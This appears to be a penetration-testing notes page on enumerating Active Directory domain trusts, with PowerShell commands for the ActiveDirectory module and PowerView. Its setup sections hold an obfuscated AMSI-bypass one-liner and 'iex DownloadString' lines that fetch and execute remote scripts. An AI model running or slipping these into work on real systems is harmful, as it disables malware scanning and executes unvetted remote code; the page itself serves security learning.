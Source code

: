 ```yaml
---
title: "Domain Trusts"
description: "Enumerating domain trusts."
lead: "Enumerating information about domain trusts using the ActiveDirectory PowerShell module and PowerView."
date: 2021-11-07T18:09:42+01:00
lastmod: 2021-11-07T18:09:42+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_enumeration"
weight: 70
toc: true
---
```


## General

- Relationship between two domains or forest
- Trusted Domain Objects (TDOs) represent trust relationship in a domain
- Types of trusts
  - One-way: users in trusted domain can access resources in the trusting domain
  - Two-way trust: users of both domains can access resources in the other domain
  - Transitive: If A and B trust each other and B and C trust each other, A and C also trust each other (default between domains in same forest)
  - Non-transitive: cannot be extended to other domains in the forest (default between two domains in different forests)
  - Automatic trust: created automatically when creating new subdomain (parent-child, tree-root)
  - Shortcut trusts: used to reduce access time in complex trust scenarios
  - External trusts: between two domains in different forests when forests do not have a turst relationships
  - Forest trusts: between forest root domains

## ActiveDirectory Module

### Setup

```powershell
# If computer has internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# If computer has no internet access, download repository
Import-Module .\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ADModule\ActiveDirectory\ActiveDirectory.psd1

# Check if module has been imported correctly
Get-Command -Module ActiveDirectory
```

### Commands

```powershell
# Get a list of all domain trusts for the current domain
Get-ADTrust
Get-ADTrust -Filter * | Select Source,Target,Direction
Get-ADTrust -Identity test.lab.local
```

## PowerView

### Setup

```powershell
# If it gets blocked by AMSI we can bypass it with
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Then load the module
Import-Module .\PowerView.ps1
. .\PowerView.ps1

# With internet access
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')
```

### Commands

```powershell
# Get a list of all domain trusts for the current domain
Get-NetDomainTrust
Get-NetDomainTrust -Domain test.lab.local
```
